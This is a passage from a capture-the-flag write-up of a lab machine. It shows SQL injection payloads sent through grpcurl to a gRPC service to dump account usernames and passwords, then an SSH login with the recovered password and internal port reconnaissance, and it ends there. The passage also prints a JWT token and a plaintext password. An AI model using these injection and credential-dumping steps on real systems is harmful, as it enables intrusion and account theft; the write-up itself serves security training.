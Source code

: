 Armed with a list of tables, I employed the `group_concat()` function to extract the contents of both the `username` table and the `password` table. From this data dump, I acquired the following entries: `admin:admin` and `sau:HereIsYourPassWord1431`.
```
┌──(root㉿dragon)-[~/htb/pc]
└─# ./grpcurl -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4' -d '{"id": "0 UNION ALL SELECT group_concat(username) from accounts"}' -plaintext 10.129.227.161:50051 SimpleApp.getInfo 

{
  "message": "admin,sau"
}


┌──(root㉿dragon)-[~/htb/pc]
└─# ./grpcurl -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4' -d '{"id": "0 UNION ALL SELECT group_concat(password) from accounts"}' -plaintext 10.129.227.161:50051 SimpleApp.getInfo 

{
  "message": "admin,HereIsYourPassWord1431"
}
```

`sau:HereIsYourPassWord1431` worked on SSH, allowing me to obtain the user flag.
```
┌──(root㉿dragon)-[~/htb/pc]
└─# ssh sau@10.129.227.161
The authenticity of host '10.129.227.161 (10.129.227.161)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.227.161' (ED25519) to the list of known hosts.
sau@10.129.227.161's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19

sau@pc:~$ cat user.txt 
1a77e********************
```

## Root
During some basic reconnaissance on the host, I found that port `8000` was open internally.
```
sau@pc:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
```